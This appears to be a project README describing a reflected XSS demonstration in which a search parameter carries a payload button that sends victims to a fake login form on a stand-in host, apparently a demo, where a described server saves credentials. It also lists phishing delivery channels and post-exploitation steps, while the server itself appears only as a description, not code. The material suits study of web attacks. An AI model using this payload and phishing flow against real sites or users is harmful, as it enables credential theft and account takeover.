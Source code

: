 🧪 Project Flow – Reflected XSS Attack (Credential Theft)
This project demonstrates a Reflected XSS attack that targets a vulnerable search functionality to steal user credentials through social engineering and a fake login form.

🔁 Attack Flow:

Reconnaissance:
The attacker inspects the web application and identifies that the search bar reflects user input directly into the HTML response without sanitization — a key sign of a Reflected XSS vulnerability.

Crafting Malicious Link:
Instead of injecting code into a database, the attacker crafts a malicious URL containing JavaScript or HTML payloads (like fake login buttons) within the q (query) parameter of the URL. This payload renders directly when a user clicks the link.

Example:

bash
Copy
Edit
http://vulnerable.com/search?q=<button onclick="window.location='http://localhost:5001/fake-form.html'">🔒 Login Again</button>
Fake Server Setup:
The attacker sets up a fake backend server (e.g., using Node.js or Python) that listens for incoming POST requests and saves stolen credentials into a file named stolen_credentials.txt.

Fake Login Form Creation:
The attacker clones the legitimate website's login form and hosts it at http://localhost:5001/fake-form.html, making it visually indistinguishable from the real one. This form is linked from the malicious payload in the reflected XSS URL.

Link Delivery (Social Engineering):
The attacker sends the crafted malicious link to potential victims via:

Email phishing campaigns

Social media messages or comments

Messaging apps like WhatsApp, Telegram

Embedded links in forum posts or QR codes

Phishing in Action:
When a legitimate user clicks the link:

The search page reflects the payload from the URL.

A fake button or message appears (e.g., “🔴 Session Expired! Login Again”).

Upon clicking, the fake login form opens, visually identical to the real one.

Credential Theft:
When the victim enters their username and password:

The credentials are silently submitted to the attacker’s fake backend server.

The server logs the data into stolen_credentials.txt.

Post-Exploitation:
Now armed with the victim’s credentials, the attacker can:

Log in as the victim.

Perform unauthorized transactions.

Access private data.

Impersonate the user within the system or on other linked platforms.
